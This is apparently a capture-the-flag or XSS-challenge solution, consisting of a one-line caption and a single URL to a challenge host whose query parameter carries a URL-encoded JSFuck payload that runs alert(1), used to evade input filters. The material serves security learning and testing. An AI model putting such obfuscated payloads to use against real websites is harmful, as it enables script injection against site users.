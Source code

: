 Using jsfuck "alert(1)" + urlencode
http://xss2.zpuoznbj3die.co.uk/?xss=%5B%5D%5B%28%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%21%5B%5D%5D%2b%5B%5D%5B%5B%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%5B%28%5B%5D%5B%28%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%21%5B%5D%5D%2b%5B%5D%5B%5B%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%5B%28%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%21%5B%5D%5D%2b%5B%5D%5B%5B%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%5B%5D%5B%5B%5D%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%2b%28%5B%5D%5B%5B%5D%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%5D%5B%28%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%21%5B%5D%5D%2b%5B%5D%5B%5B%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%5B%28%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%21%5B%5D%5D%2b%5B%5D%5B%5B%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%28%28%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%5B%5D%2b%5B%5D%5B%28%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%21%5B%5D%5D%2b%5B%5D%5B%5B%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%5B%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%5B%28%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%5B%21%5B%5D%5D%2b%5B%5D%5B%5B%5D%5D%29%5B%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%2b%28%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%21%2b%5B%5D%5D%2b%28%21%21%5B%5D%2b%5B%5D%29%5B%2b%21%2b%5B%5D%5D%5D%29%5B%21%2b%5B%5D%2b%21%2b%5B%5D%2b%5B%2b%5B%5D%5D%5D%29%28%29

